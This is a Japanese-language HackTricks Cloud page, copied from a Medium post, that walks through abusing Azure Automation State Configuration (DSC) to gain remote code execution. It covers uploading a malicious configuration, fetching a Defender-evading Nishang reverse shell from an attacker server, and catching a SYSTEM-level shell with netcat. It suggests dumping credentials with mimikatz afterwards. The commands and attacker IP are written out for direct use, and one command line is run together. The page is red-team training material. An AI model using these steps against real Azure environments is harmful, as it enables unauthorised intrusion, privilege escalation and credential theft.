 # Az - State Configuration RCE

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れよう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックしてください
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォロー**してください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有してください。

</details>

**この投稿は** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe) **からコピーされました**

### リモートサーバー (C2) インフラストラクチャの準備 <a href="#f0fa" id="f0fa"></a>

リモートサーバー "40.84.7.74"（Kaliボックス）から、NishangのInvoke-PowerShellTcp.ps1ペイロードの簡略版をホストします。ペイロード名は "RevPS.ps1" です。Windows DefenderによってNishangスクリプトが何らかの理由で削除されないように（ファイルをディスクにドロップしたいかもしれません）、Defenderをバイパスすることができる軽量バージョンがこちらにあります：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1)。これは、Kaliボックス上のシンプルなPython Simple Serverによってホストされます。

### ステップ 1 — ファイルの作成 <a href="#89de" id="89de"></a>

別のDSC構成ファイルを作成する必要があります。テンプレートはこちらからダウンロードできます：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1)。この構成ファイルは、以前に使用した同じファイル書き込み機能を使用します。今回は、リモートサーバーからペイロードをダウンロードして実行するコードが含まれています。また、_ComputerManagementDsc_ モジュールから利用可能なスケジュールタスク機能を使用しています。スケジュールタスク機能は、後で実行とSYSTEM権限の提供において重要な役割を果たします。

VMに構成を公開するために使用されるスクリプトもダウンロードします。こちらにあります：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1)。

これらのファイルはテンプレートとして機能します。**使用している変数名やパラメータを記入する必要があります**。これには、リソース名、ファイルパス、使用している外部サーバー/ペイロード名が含まれます。コード内のコメントを参照してください。

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### ステップ 2 — 構成ファイルの圧縮 <a href="#c2c2" id="c2c2"></a>

2つのファイルを作成したら、**'reverse\_shell\_config.ps1'** ファイルをzip圧縮して、ストレージアカウントに送信できるようにします
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### ステップ 3 — ストレージコンテキストの設定とアップロード <a href="#bed9" id="bed9"></a>

再度、私のストレージアカウントのコンテキストを設定します。これは既に完了しています。私はすでに '**azure-pentest**' という名前のコンテナを持っているので、ここに公開します：
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### ステップ 4 — Kali Box の準備 <a href="#20fb" id="20fb"></a>

Kali box では、PowerShell ペイロードを _wget_ で簡単に取得できます。生のリバースシェルスクリプトはこちらにあります: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1)。
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
```markdown
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

リバースシェルスクリプトを編集し、実行された際にWindows VMが接続先を知るために、私たちのパラメータを追加する必要があります。私の場合、以下を追加しました：
```
```
RevPShell -Reverse 40.84.7.73 443
```
### ステップ 5 — 設定ファイルの公開 <a href="#9ad6" id="9ad6"></a>

次に、設定ファイルを実行します。私は視覚的にわかりやすいようにデスクトップに公開するように設定していますが、ほぼどこにでも公開できます。数分後、リバースシェルスクリプトが公開されたことがわかります！

### ステップ 6 — ペイロードのホスティングとリスナーの設定 <a href="#c55f" id="c55f"></a>

設定を公開したら、ペイロードをホストするためにポート80でPython SimpleHTTPServerを同時に開始し、接続をキャッチするためにnetcatリスナーを設定します：
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
スケジュールされたタスクが実行され、ペイロードが取得され、**SYSTEM** レベルの権限でメモリ内で実行されたことがわかります！

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### まとめ <a href="#1ec2" id="1ec2"></a>

これで多くの可能性が開かれます。**SYSTEM** としてシェルを持っているので、mimikatzを使ってクレデンシャルをダンプすることができます（クラウドリソースのEDRの成熟度によってはリスクがあるかもしれません）。クレデンシャルをダンプすると、これらが他のリソースで再利用される可能性が高いです。最後に、重要なポイントは、これを1つのVMに限定するのではなく、複数のVMにこの設定を適用する可能性があるということです。

この点について、Azure Automation DSCの冒険は終わりです！楽しんで、多くを学び、自分の創造性でさらに拡張していくことを願っています。

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSのハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの**会社を広告したい、または**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**する。
* [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
